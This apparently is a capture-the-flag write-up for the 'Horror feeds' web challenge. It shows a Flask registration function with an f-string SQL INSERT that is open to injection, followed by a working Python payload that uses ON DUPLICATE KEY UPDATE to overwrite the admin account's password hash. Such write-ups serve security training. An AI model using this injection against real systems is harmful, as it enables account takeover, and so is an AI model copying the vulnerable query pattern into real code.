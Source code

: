 # [Web] Horror feeds

This web application contains a dashboard, that will display the flag if the logged in user has `admin` as username.
In order to register new users, this application takes a JSON input containing the username and password of the new user.

However the `INSERT` query is vulnerable to a SQLi

```python
def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
    if exists:
        return False
    hashed = generate_password_hash(password)
    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

We can exploit it by using a new username to pass the existence check, but concatenate another value for the insert in the password. The only hurdle is that the username has a `UNIQUE` constraint

```sql
CREATE TABLE horror_feeds.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
```

To bypass this constraint, we can tell MySQL how to react in case of conflict with [ON DUPLICATE KEY UPDATE](https://dev.mysql.com/doc/refman/8.0/en/insert-on-duplicate.html)

Our final payload is

```python
import requests

host = "1.2.3.4"
port = "31104"

def main():
    payload = {
        # password = bbb
        'username': 'test","$2b$12$gOWv7k1i8FRE07xUZE79ueTxXZHA42U5OtYqlmg6yWcyEYF5W9zIa"),("admin","$2b$12$gOWv7k1i8FRE07xUZE79ueTxXZHA42U5OtYqlmg6yWcyEYF5W9zIa") ON DUPLICATE KEY UPDATE password="$2b$12$gOWv7k1i8FRE07xUZE79ueTxXZHA42U5OtYqlmg6yWcyEYF5W9zIa" -- -',
        'password': 'whatever'
        }
    response = requests.post("http://" + host + ":" + port + "/api/register", json = payload)
    print(response)
main()
```

We can then login with the user `admin` and the password `bbb`

